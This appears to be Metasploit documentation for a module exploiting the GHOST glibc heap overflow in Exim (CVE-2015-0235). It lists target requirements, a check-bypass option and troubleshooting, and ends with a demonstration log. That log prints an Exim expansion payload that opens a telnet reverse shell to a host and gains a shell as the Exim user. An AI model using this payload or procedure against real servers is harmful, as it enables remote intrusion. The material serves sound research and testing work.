 The Exim GHOST buffer overflow is a vulnerability found by researchers from Qualys. On March 17th 2015, Qualys released an exploit module demonstrating the exploitability of this flaw, which is now exim_gethostbyname_bof.rb in Metasploit Framework.

When Qualys released the exploit, it included a lot of technical details for debugging and usage purposes. We decided to put all that here in a more readable format.

## What is "GHOST"

This is a heap based buffer overflow found in GNU C Library's **g**et**host**byname functions since glibc-2.2 (November 10, 2000), which is part of the Linux operating system, such as: Debian, Red Hat, CentOS, and Ubuntu.

## Exploitable Requirements

**On the server-side (victim):**

* glibc-2.6 - glibc-2.17: The exploit depends on the newer versions' fd_nextsize (a member of the malloc_chunk structure) to remotely obtain the address of Exim's smtp_cmd_buffer in the heap.
* Exim server. The first exploitable version is Exim-4.77, maybe older. The exploit depends on the newer versions' 16-KB smtp_cmd_buffer to reliably set up the heap as described in the advisory.
* The Exim server also must enable helo_try_verify_hosts or helo_verify_hosts in the /etc/exim4/exim4.conf.template file. The "verify = helo" ACL might be exploitable too, but the attack vector isn't as reliable, therefore not supported by the module.

For testing purposes, if you need to find a vulnerable system, you can try Debian 7 (it should come with an exploitable Exim server):
http://ftp.cae.tntech.edu/debian-cd/dvd/debian-7.7.0-i386-DVD-1.iso

**On the attacker's side:**

* The attacker's IPv4 address must have both forward and reverse DNS entries that match each other (Forward-Confirmed reverse DNS). For testing purposes, you can also edit the server's /etc/hosts file to meet this requirement.

## The check method

The GHOST exploit module comes with a check method. It is explicit, which means the check will actually try to trigger the vulnerability to determine if the host is vulnerable or not.

The check is also enforced when you use the "exploit" or "run" command. However, you can turn off the enforcement by setting the ```I_KNOW_WHAT_I_AM_DOING``` datastore option to true. For example:

```
set I_KNOW_WHAT_I_AM_DOING true
run
```

## Troubleshooting

If the exim_gethostbyname_bof.rb module has failed on you:

| Failure  | Explanation |
| -------- | ----------- |
| bad SENDER_HOST_ADDRESS (nil) | The SENDER_HOST_ADDRESS datastore option was not specified |
| bad SENDER_HOST_ADDRESS (not in IPv4 dotted-decimal notation) | The SENDER_HOST_ADDRESS datastore option was specified, but not in IPv4 dotted-decimal notation |
| bad SENDER_HOST_ADDRESS (helo_verify_hosts) | The SENDER_HOST_ADDRESS datastore option does not match the IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim). |
| bad SENDER_HOST_ADDRESS (no FCrDNS) | the IPv4 address of the SMTP client (Metasploit) has no Forward-Confirmed reverse DNS. |
| not vuln? old glibc? (no leaked_arch) | the remote Exim server is either not vulnerable, or not exploitable (glibc versions older than glibc-2.6 have no fd_nextsize member in their malloc_chunk structure). |
| NUL, CR, LF in addr? (no leaked_addr) | Exim's heap address contains bad characters (NUL, CR, LF) and was therefore mangled during the information leak; this exploit is able to reconstruct most of these addresses, but not all (worst-case probability is ~1/85, but could be further improved). |
| Brute-force SUCCESS" followed by a nil reply, but no shell | the remote Unix command was executed, but spawned a bind-shell or a reverse-shell that failed to connect (maybe because of a firewall, or a NAT, etc). |
| Brute-force SUCCESS" followed by a non-nil reply, and no shell | The remote Unix command was executed, but failed to spawn the shell (maybe because the setsid command doesn't exist, or awk isn't gawk, or netcat doesn't support the -6 or -e option, or telnet doesn't support the -z option, etc). |

## Module Demonstration

When everything is dialed in correctly, a successful attack should look like the following:

```
msf exploit(exim_gethostbyname_bof) > run

[*] Started reverse double handler
[*] Trying information leak...
[!] {:heap_shift=>736}
[!] {:write_offset=>128, :error=>"503 sender not yet given"}
[!] {:write_offset=>136, :error=>"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"}
[!] {:error=>["\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given", "", "503 \x89\x10", "177", "177\\177\\177", "vJN\\177\\177\\177\\177"]}
[!] {:leaked_arch=>"x86"}
[!] {:count=>{"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"=>8, "hF\xFE\xB7hF\xFE\xB7er not yet given"=>2}}
[+] Successfully leaked_arch: x86
[+] Successfully leaked_addr: b7fda760
[*] Trying code execution...
[!] ${run{/usr/bin/env setsid /bin/sh -c "sh -c '(sleep 4011|telnet 192.168.1.64 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.64 4444 >/dev/null 2>&1 &)'"}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>21}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>25}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>20}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>8}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>6}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>12}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>19}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>23}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>18}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>14}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>3}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>28}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd02a1", :offset=>26}
[!] {:reply=>{:code=>"550", :lines=>["550 sikVtqGxFOjCBOWTbDupmIuJRmLmShFNqqUYRRPUolyxPmmgLCenEzConuVGWafjgycyRfXulGNwmAOvkqZkGobMyUIMPojZsaziCjVVyvabOrcieEWrLZSgnCCXHeXjIzGGfUALAIubgBEmsKsSWSGa\r\n"]}}
[+] Brute-force SUCCESS
[+] Please wait for reply...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo qaNpBmRBEus9XoVZ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "qaNpBmRBEus9XoVZ\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.1.64:4444 -> 192.168.1.166:58859) at 2015-03-19 03:36:52 -0500
[!] {:reply=>nil}

id
uid=104(Debian-exim) gid=112(Debian-exim) groups=112(Debian-exim)
```

## References:

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-0235
* https://community.qualys.com/blogs/laws-of-vulnerabilities/2015/03/17/ghost-remote-code-execution-exploit
* https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.171218720.101498705.1426692159
* https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.136230833.101498705.1426692159